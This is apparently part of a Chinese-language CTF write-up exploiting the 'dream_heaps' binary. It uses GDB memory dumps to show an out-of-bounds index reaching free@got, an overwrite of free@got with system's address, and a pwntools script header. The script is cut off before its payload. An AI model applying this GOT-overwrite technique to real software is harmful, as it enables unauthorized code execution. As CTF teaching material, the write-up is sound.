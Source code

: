 通过和0x1中同样方法可以知道下标-263024能拿到free@got的地址，首先就想着能不能通过edt直接改，但是edt还要拿一个size，由于HEAP_PTRS和SIZES相差8个qword即64个字节，偏移之后同样也是差64个字节，可以看到size为0，所以写不了

```assembly
gef➤  search-pattern 0x602020
0x400520 - 0x40052c
gef➤  x/10gx 0x400520
0x400520:	[HEAP_PTRS-263024]➤	0x0000000000602018 	0x0000000100000007
0x400530:	0x0000000000000000	0x0000000000602020
0x400540:	0x0000000200000007	0x0000000000000000
0x400550:	0x0000000000602028	0x0000000300000007
0x400560:	[SIZES-263024]➤	0x0000000000000000	0x0000000000602030
0x400570:	0x0000000400000007	0x0000000000000000
```

#### 最后

因为new_dream创建超过8后就会覆盖SIZES数组，因此SIZES内容可控，同时也可以作为HEAP_PTRS中的指针；因此可以写入free@got 0x602018，经尝试后写入SIZES[18]即为HEAP_PTRS[17]，对应大小即SIZES[17]   理想情况即为：

```assembly
gef➤  sq 0x00000000006020A0
0x6020a0 <HEAP_PTRS>:	0x0000000000b74270	0x0000000000b74290
0x6020b0 <HEAP_PTRS+16>:	0x0000000000b742b0	0x0000000000b742d0
0x6020c0 <HEAP_PTRS+32>:	0x0000000000b742f0	0x0000000000b74310
0x6020d0 <HEAP_PTRS+48>:	0x0000000000b74330	0x0000000000b74350
0x6020e0 <SIZES>:	0x0000000000b74370	0x0000000000b74390
0x6020f0 <SIZES+16>:	0x0000000000b743b0	0x0000000000b743d0
0x602100:	0x0000000000b743f0	0x0000000000b74410
0x602110:	0x0000000000b74430	0x0000001000b74450
0x602120:	0x00000010[size➤]00000010	0x0000000000602018	# here
0x602130:	0x00007f8c121fd010	0x0000000000000000
```

然后再edit HEAP[17]，改写为system真实地址   最后delete调用free即可触发

## exp

```python
from pwn import *
from ctypes import *
import sys

pty = process.PTY
context(os='linux', arch='i386', log_level='debug')
mode = ''
if len(sys.argv) > 1:
    mode = sys.argv[1]

proc = process("./dream_heaps")
belf = ELF("./dream_heaps")
libc = ELF("./libc-2.27.so")

def s(x): proc.send(x)
def sl(x): return proc.sendline(x)
def sd(x): return proc.send(x)
def sla(x, y): return proc.sendlineafter(x, y)
def sa(x, y): return proc.sendafter(x, y)
def ru(x): return proc.recvuntil(x)
def rc(): return proc.recv()
def rl(): return proc.recvline()
def li(con): return log.info(con)
def ls(con): return log.success(con)
def pi(): return proc.interactive()
def pcls(): return proc.close()
def ga(): return u64(ru(b'\x7f')[-6:].ljust(8, b'\x00'))
```